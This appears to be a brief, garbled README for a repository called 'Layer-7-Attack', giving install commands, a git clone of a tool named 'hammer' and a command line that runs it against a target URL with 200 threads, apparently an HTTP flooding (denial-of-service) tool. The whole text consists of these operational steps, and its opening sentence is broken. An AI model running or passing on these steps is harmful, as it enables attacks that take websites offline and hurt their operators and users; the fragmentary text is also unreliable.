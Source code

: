 # Layer-7-Attack
This Python usageVersi Hammer $ PKG install python $ PKG install git $ git clone https://github.com/cyweb/hammer $ cd hammer $ python2 oct.py -s http://target.com -t 200
